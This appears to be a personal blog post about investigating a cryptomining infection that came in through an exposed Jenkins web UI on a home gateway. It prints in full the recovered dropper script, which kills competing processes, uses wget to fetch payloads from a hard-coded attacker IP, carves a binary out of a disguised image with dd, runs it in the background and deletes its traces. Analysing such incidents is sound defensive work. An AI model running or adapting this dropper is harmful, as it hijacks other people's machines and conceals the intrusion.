 Title: Mining via Atom processor
Date: 2017-07-18 07:44
Tags: mining, hack, jenkins

No, it is not about mining. :) The story is about infecting poor Atom-based gateway host with mining software through Jenkins web UI.

Couple of days ago I noticed strange noise from my home gateway fans. The reason was all the 8 cores were 100% loaded with processes named `irq` and `irqbalanc1`.

First, I just checked the source and decided that those processes were spawned by some Jenkins job. Sadly I got no time to investigate, so 8 hours later host was infested again, but I didn't knew it yet.

Days later I finished my real life stuff and remembered about strange load. Then I went to check the logs, temperature graph, etc. Later I would know that my Jenkins web UI was exposed to the internet to let GitHub hooks start jobs and host got infested using this interface. As for now, I just fixed docker-related iptables rules to restrict access.

And here comes the interesting part, see the investigation:

```
$ ps auxfww
root      1972  0.1  0.1 782452 56964 ?        Ssl  Jul04  26:19 /usr/bin/dockerd -H fd://
root      2265  0.0  0.0 754852 13808 ?        Ssl  Jul04  15:42  \_ containerd -l unix:///var/run/docker/libcontainerd/docker-containerd.sock --shim containerd-shim --metrics-interval=0 --start-timeout 2m --state-dir /var/run/docker/libcontainerd/containerd --runtime runc
root      1431  0.0  0.0 356400  7964 ?        Sl   Jul16   0:00  |   \_ containerd-shim 771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f /var/run/docker/libcontainerd/771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f runc
user      1451  0.0  0.0   1104     4 ?        Ss   Jul16   0:05  |       \_ /bin/tini -- /usr/local/bin/jenkins.sh
user      1475  0.1  9.3 14247684 3065036 ?    Sl   Jul16   5:57  |           \_ java -jar /usr/share/jenkins/jenkins.war
user       888  0.0  0.0   4332  1548 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     19520  0.0  0.0  12816   980 ?        S    Jul16   0:00  |               |   \_ grep -v grep
user     29026  0.0  0.0   4332  1576 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     29158  691  0.0 677948 20696 ?        Sl   Jul16 14660:11  |                   \_ /var/tmp/irqbalanc1 -c /var/tmp/httpd.conf
```

Of course, file was deleted after execution, so here i restore it from RAM:

```
lsof -p 29026
cp /proc/29026/fd/10 ~/fraud.sh
cat ~/fraud.sh
```

See it's getting files from IP 185.162.10.190 (hosting company already got abuse ticket) and extracting code form those via dd using specific offset. Kinda smart.

```
#!/bin/sh
pkill -f apaceha
pkill -f cryptonight
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs ps --ppid|awk '{print $1}'|grep -v PID|xargs kill -9
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs kill -9
ps -u jenkins|grep sh|grep -v irq|grep -v jenkins|grep -v grep|awk '{print $1}'|xargs kill -9
#ps ax|grep httpd.conf|grep -v irq|grep -v grep|grep tmp|awk '{print $1}'|xargs kill -9
ps -ef|grep .sh|grep tmp|grep -v irq|grep -v grep|grep -v gosh|cut -c 9-15|xargs kill -9
pkill -f stratum
pkill -f mixnerdx
pkill -f performedl
# ... tons of various pkill calls here ...
ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
rm -rf /tmp/httpd.conf
rm -rf /tmp/conn
rm -rf /tmp/conns
rm -f /tmp/irq.sh
rm -f /tmp/irqbalanc1

ps auxf|grep -v grep|grep "irqbalanc1"|grep defunct|awk '{print $2}'|xargs kill -9

sleepTime=20

ps -fe|grep irqbalanc1 |grep -v defunct|grep -v grep
if [ $? -ne 0 ]
    then
    echo "start process....."

    cat /proc/cpuinfo|grep aes>/dev/null
    if [ $? -ne 1 ]
        then
        wget 185.162.10.190/miu1.png -O /tmp/conn
        dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
    else
        wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
    fi

    chmod +x /tmp/irqbalanc1
    wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
    nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
    sleep 5
    rm -rf /tmp/httpd.conf
    rm -rf /tmp/conn
    rm -rf /tmp/conns
    rm -f /tmp/irq.sh
    rm -f /tmp/irq
    rm -f /tmp/irqbalanc1
    while [ 0 -lt 1 ]
    do
        ps -fe| grep irqbalanc1 |grep -v defunct| grep -v grep
        if [ $? -ne 0 ]
            then
            echo "process not exists ,restart process now... "
            cat /proc/cpuinfo|grep aes>/dev/null
            if [ $? -ne 1 ]
                then
                wget 185.162.10.190/miu1.png -O /tmp/conn
                dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
            else
                wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
            fi

            chmod +x /tmp/irqbalanc1
            wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
            nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
            sleep 5
            rm -rf /tmp/httpd.conf
            rm -rf /tmp/conn
            rm -rf /tmp/conns
            rm -f /tmp/irq.sh
            rm -f /tmp/irq
            rm -f /tmp/irqbalanc1
            echo "restart done ..... "
        else
            echo "process exists , sleep $sleepTime seconds "
            pkill -f cryptonight
            pkill -f apaceha
            pkill -f mixnerdx
            pkill -f performedl
            # ... tons of various pkill calls here ...
            ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;

        fi
        sleep $sleepTime
    done


else
    echo "runing....."
```

Then script connects to 139.60.160.248 (it is located in `httpd.conf`) and do stuff, using your CPU. I'm also sending abuse to this company to just let them know someone is playing dirty out there. Not sure if they could block this particular IP or something.

I also thoght that it is possible to find wallet accepting address within binary file (as there is no such in config file), but got no luck. Probably it could be located inside `/proc/*/cmdline` or around, but now it's too late as the process was killed.

Please let me know if you got ideas how to continue investigation.

Update: After 24 hours head host was locked by hosting provider.

